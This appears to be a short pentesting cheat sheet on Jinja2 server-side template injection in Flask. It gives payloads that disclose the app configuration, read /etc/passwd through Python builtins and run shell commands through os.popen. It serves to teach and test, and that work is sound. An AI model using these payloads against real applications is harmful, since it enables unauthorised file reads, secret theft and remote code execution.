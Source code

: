 ```yaml
---
title: c-Jinja2
draft: false
tags:
  - ssti
  - jinja2
---
```

Jinja is a template engine commonly used in Python web frameworks such as `Flask` or `Django`. This section will focus on a `Flask` web application. The payloads in other web frameworks might thus be slightly different.

## Information Disclosure

Let's try to obtain internal information about the web app including the configuration details and the web application's source code.

We can obtain web app's configuration by:

```jinja2
{{ config.items() }}
```

We can also execute Python code to obtain information about the web app's source code.

Dump all available built-in functions:

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

## LFI

We can use Python's built-in function `open` to include a local file.

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

## RCE

In Python, we can use functions provided by the `os` library, such as `system` or `popen`.

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```